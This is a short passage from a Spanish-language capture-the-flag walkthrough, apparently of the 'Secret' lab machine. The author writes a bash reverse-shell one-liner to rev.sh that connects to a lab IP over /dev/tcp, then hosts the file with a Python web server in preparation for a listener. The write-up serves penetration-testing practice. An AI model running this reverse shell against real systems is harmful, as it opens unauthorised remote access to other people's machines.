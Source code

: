 ![17.png](/assets/images/2022-05-10-Secret/17.png)

Nos creamos un servicio web en donde tenemos nuestro archivo

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret]
└──╼ #cat rev.sh 
───────┬─────────────────────────────────────────────────────────────────────
       │ File: rev.sh
───────┼─────────────────────────────────────────────────────────────────────
   1   │ bash -i >& /dev/tcp/10.10.14.139/443 0>&1
───────┴─────────────────────────────────────────────────────────────────────
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret]
└──╼ #python3 -m http.server 80
```

Ponemos nuestra máquina a la escucha
